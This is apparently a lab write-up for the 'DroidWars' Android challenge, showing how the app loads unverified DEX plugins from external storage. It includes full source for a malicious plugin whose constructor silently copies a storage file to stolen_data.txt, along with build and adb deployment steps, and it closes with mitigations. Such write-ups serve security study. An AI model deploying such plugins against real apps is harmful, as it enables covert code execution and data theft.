


# DroidWars – The Plugins Race

## Overview

**Challenge:** DroidWars – The Plugins Race
**Category:** Android / Mobile Security
**Package:** `com.eightksec.droidwars`

The challenge revolves around an Android application that supports loading external DEX files as plugins.

The goal was to determine whether an attacker-controlled plugin could be loaded and executed by the application and then demonstrate the resulting impact on external storage.

The final PoC uses a malicious `FireDragon.dex` plugin that:

1. Is placed in the application's external plugin directory.
2. Is discovered by the application's plugin loader.
3. Is dynamically loaded using `DexClassLoader`.
4. Executes attacker-controlled code through its constructor.
5. Runs the proof-of-concept operation in a background thread.
6. Reads a controlled file from external storage.
7. Writes the retrieved content to `stolen_data.txt`.

---

# 1. Static Analysis

## 1.1 Application Manifest

The first step was inspecting the application's `AndroidManifest.xml`.

Relevant configuration included:

```xml
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission
    android:name="android.permission.READ_EXTERNAL_STORAGE"
    android:maxSdkVersion="29" />
<uses-permission
    android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    android:maxSdkVersion="29" />
<uses-permission
    android:name="android.permission.MANAGE_EXTERNAL_STORAGE" />
```

The application targets Android 15:

```text
targetSdk = 35
```

The main activity is exported and serves as the application's entry point.

---

# 2. MainActivity Analysis

The application initializes the plugin system during startup.

The important flow is:

```text
MainActivity.onCreate()
        |
        +--> PluginLoader
        |
        +--> DefaultPlugin
        |
        +--> checkStoragePermissionAndLoadPlugins()
        |
        +--> loadExternalPlugins()
```

On Android 11 and newer, the application checks:

```java
Environment.isExternalStorageManager()
```

before loading external plugins.

Once storage access is available, the application calls:

```java
loadExternalPlugins();
```

---

# 3. External Plugin Discovery

The next important function was `PluginLoader.getAvailablePlugins()`.

The application uses:

```text
/sdcard/PokeDex/plugins/
```

as its plugin directory.

Conceptually, the function performs:

```java
File[] files = pluginsDirectory.listFiles();

for (File file : files) {
    if (file.getName().endsWith(".dex")) {
        ...
    }
}
```

Therefore, a DEX file placed in:

```text
/sdcard/PokeDex/plugins/
```

can become a candidate plugin.

For example:

```text
/sdcard/PokeDex/plugins/FireDragon.dex
```

is interpreted as the plugin:

```text
FireDragon
```

---

# 4. Dynamic Class Loading

The most important part of the analysis was `PluginLoader.loadPlugin()`.

The application copies the external DEX into an application-private directory and then creates a:

```java
DexClassLoader
```

The relevant concept is:

```java
new DexClassLoader(
    dexPath,
    optimizedDirectory,
    null,
    context.getClassLoader()
);
```

The class loader then attempts to load classes from the attacker-controlled DEX.

The application also contains a compatibility mechanism called `SimplePluginAdapter`.

Instead of requiring the external class to directly implement the application's `PokemonPlugin` interface, the loader can use reflection to look for methods such as:

```text
getName()
getType()
getAllData()
```

This makes it possible for a simple external class to be adapted into the expected plugin interface.

---

# 5. PokemonPlugin Interface

The application's normal plugin interface contains:

```java
public interface PokemonPlugin {

    List<String> getAbilities();

    String getDescription();

    int getImageResourceId();

    String getName();

    Map<String, Integer> getStats();

    String getType();
}
```

However, the `SimplePluginAdapter` provides another path.

The external class only needs to provide compatible methods such as:

```java
public String getName()
public String getType()
public Map getAllData()
```

The adapter then exposes these methods through the application's expected plugin interface.

This is important because the attacker does not need to reproduce the complete original plugin implementation.

---

# 6. Identifying the Exploitation Point

The important observation was:

```text
External DEX
     |
PluginLoader
     |
DexClassLoader
     |
Attacker-controlled class
```

Once the application loads the attacker-controlled class, its code executes inside the application's process.

There is no security boundary separating the plugin code from the host application's Java runtime.

Therefore, the plugin is not merely providing Pokémon metadata.

It is executable code.

---

# 7. Creating the Malicious Plugin

I created a plugin called:

```text
FireDragon
```

The PoC was intentionally limited to a **controlled lab file** rather than real user data.

The complete source code is:

```java
import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileReader;
import java.io.FileWriter;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class FireDragon {

    private static final String TEST_FILE =
        "/sdcard/PokeDex/test_data.txt";

    private static final String EVIDENCE_FILE =
        "/sdcard/PokeDex/stolen_data.txt";

    public FireDragon() {
        try {
            new Thread(() -> performPoC()).start();
        } catch (Throwable ignored) {
        }
    }

    private void performPoC() {
        try {
            File source = new File(TEST_FILE);
            File evidence = new File(EVIDENCE_FILE);

            if (!source.exists() || !source.canRead()) {
                return;
            }

            String content = readFile(source);

            writeEvidence(evidence, content);

        } catch (Throwable ignored) {
        }
    }

    private String readFile(File file) {

        StringBuilder content = new StringBuilder();

        try (
            BufferedReader reader =
                new BufferedReader(new FileReader(file))
        ) {
            String line;

            while ((line = reader.readLine()) != null) {
                content.append(line);
                content.append("\n");
            }

        } catch (Throwable ignored) {
            return "";
        }

        return content.toString();
    }

    private void writeEvidence(
        File evidence,
        String stolenContent
    ) {

        try (
            BufferedWriter writer =
                new BufferedWriter(
                    new FileWriter(evidence, false)
                )
        ) {
            writer.write("!!! DroidWars PoC !!!\n");
            writer.write(
                "FireDragon executed through the external DEX plugin.\n"
            );
            writer.write(
                "Successfully accessed the controlled lab file:\n"
            );
            writer.write(TEST_FILE + "\n\n");

            writer.write("--- LAB DATA ---\n");
            writer.write(stolenContent);
            writer.write("--- END LAB DATA ---\n");

            writer.flush();

        } catch (Throwable ignored) {
        }
    }

    public String getName() {
        return "Fire Dragon";
    }

    public String getType() {
        return "Fire";
    }

    @SuppressWarnings({"rawtypes", "unchecked"})
    public Map getAllData() {

        Map data = new HashMap();

        data.put(
            "description",
            "A powerful dragon forged in flames."
        );

        data.put("imageResourceId", 0);

        data.put(
            "abilities",
            Arrays.asList(
                "Flame Breath",
                "Inferno"
            )
        );

        Map stats = new HashMap();

        stats.put("HP", 120);
        stats.put("Attack", 110);
        stats.put("Defense", 90);
        stats.put("Sp. Attack", 120);
        stats.put("Sp. Defense", 80);
        stats.put("Speed", 100);

        data.put("stats", stats);

        return data;
    }
}
```

---

# 8. Why the Constructor Is Important

The malicious operation is started from:

```java
public FireDragon() {
    new Thread(() -> performPoC()).start();
}
```

The important point is that the constructor is executed when the application instantiates the dynamically loaded plugin.

Therefore:

```text
DexClassLoader
      ↓
load FireDragon
      ↓
instantiate FireDragon
      ↓
FireDragon()
      ↓
performPoC()
```

The operation is also placed inside a background thread so that the plugin continues behaving like a normal game component from the application's perspective.

---

# 9. Creating Controlled Lab Data

Because there were no existing `.txt` files on the emulator, I created a controlled test file.

From Windows:

```powershell
adb shell "echo LAB_SECRET_123 > /sdcard/PokeDex/test_data.txt"
```

Then verified it:

```powershell
adb shell cat /sdcard/PokeDex/test_data.txt
```

Output:

```text
LAB_SECRET_123
```

This file represents controlled lab data and avoids using real personal files.

---

# 10. Compiling the Plugin

Create the build directories:

```bash
mkdir -p build/classes build/dex
```

Compile:

```bash
javac \
  -encoding UTF-8 \
  -source 1.8 \
  -target 1.8 \
  -d build/classes \
  src/FireDragon.java
```

The Java 8 warnings are expected with newer JDK versions.

Create the JAR:

```bash
jar -cf build/classes.jar -C build/classes .
```

---

# 11. Converting the JAR to DEX

The environment did not expose `d8` directly through the PATH.

The available D8 executable was:

```text
/home/yaramekawy/drozer/src/drozer/lib/d8
```

Therefore:

```bash
/home/yaramekawy/drozer/src/drozer/lib/d8 \
    --min-api 24 \
    --release \
    --output build/dex \
    build/classes.jar
```

This generated:

```text
build/dex/classes.dex
```

---

# 12. Deploying the Malicious Plugin

The application expects plugins under:

```text
/sdcard/PokeDex/plugins/
```

The generated DEX was pushed as:

```text
FireDragon.dex
```

Command:

```powershell
adb push "C:\Users\yaram\Downloads\DroidWars.apk\FireDragon.dex" /sdcard/PokeDex/plugins/FireDragon.dex
```

Verification:

```powershell
adb shell ls -l /sdcard/PokeDex/plugins/
```

Result:

```text
FireDragon.dex
```

---

# 13. Triggering the Plugin

After restarting the application, the plugin was discovered and loaded.

Logcat confirmed:

```text
Attempting to load SimplePlugin implementation: FireDragon
Found SimplePlugin implementation: FireDragon
Successfully loaded SimplePlugin implementation
```

This confirms the following chain:

```text
FireDragon.dex
      ↓
PluginLoader
      ↓
SimplePlugin implementation detected
      ↓
FireDragon class loaded
      ↓
Plugin instantiated
```

---

# 14. Plugin Appearing in the Application UI

The plugin was successfully displayed as:



This demonstrates that the malicious DEX did not need to crash the application or prevent it from functioning as a game component.


---

# 15. Demonstrating External Storage Data Access

After the plugin was loaded, it read the controlled file:

```text
/sdcard/PokeDex/test_data.txt
```

and copied its contents into:

```text
/sdcard/PokeDex/stolen_data.txt
```

The resulting evidence file was verified with:

```powershell
adb shell cat /sdcard/PokeDex/stolen_data.txt
```

Output:



This demonstrates that attacker-controlled code loaded through the application's plugin mechanism was able to access a controlled file in external storage.

---

# 16. Application Exploit Detection

The application contains a function named:

```java
checkForExploitEvidence()
```

It checks several locations for:

```text
stolen_data.txt
```

including:

```text
/sdcard/stolen_data.txt
/sdcard/PokeDex/stolen_data.txt
```

When the file is found, the application reads its contents and logs:

```text
--- STOLEN DATA CONTENT ---
```

It then displays:

```text
SECURITY BREACH DETECTED
```

Therefore, the application's own detection mechanism can be used to confirm the successful PoC.

---

# 17. Final Attack Chain

The complete exploitation flow is:

```text
Attacker-controlled FireDragon.dex
                |
                
/sdcard/PokeDex/plugins/
                |
                
getAvailablePlugins()
                |
                
PluginLoader.loadPlugin()
                |
                
DexClassLoader
                |
                
loadSimplePlugin()
                |
                
FireDragon class
                |
                
FireDragon constructor
                |
                
Background thread
                |
                
Read controlled external-storage file
                |
                
Write stolen_data.txt
                |
                
checkForExploitEvidence()
                |
                
SECURITY BREACH DETECTED
```

---

# 18. Impact

An attacker who can place a crafted DEX file in the plugin directory can potentially execute arbitrary Java code within the host application's process and access resources available to that process.

The PoC demonstrates:

* Attacker-controlled DEX loading.
* Dynamic code execution.
* Execution during plugin initialization.
* Background execution.
* Access to external-storage data in the controlled lab.
* Ability to create persistent evidence in external storage.
* Successful integration of the malicious plugin into the application's normal UI.

The PoC intentionally uses a controlled file rather than accessing real user information.

---

# 19. Mitigation

The application should not treat arbitrary DEX files from external storage as trusted code.

Recommended mitigations include:

### 1. Do not load executable code from untrusted external storage

Avoid:

```java
DexClassLoader(...)
```

on attacker-controlled paths.

### 2. Use a trusted plugin source

If plugins are required, distribute them through a trusted application-controlled mechanism.

### 3. Verify plugin authenticity

Plugins should be cryptographically signed and verified before loading.

### 4. Use an allowlist

Only explicitly approved plugin identifiers and versions should be accepted.

### 5. Avoid relying on filename validation

Checking:

```text
.dex
```

or the plugin name is not a security boundary.

### 6. Isolate plugin functionality

If third-party plugins are required, their privileges and execution environment should be isolated from sensitive application resources.


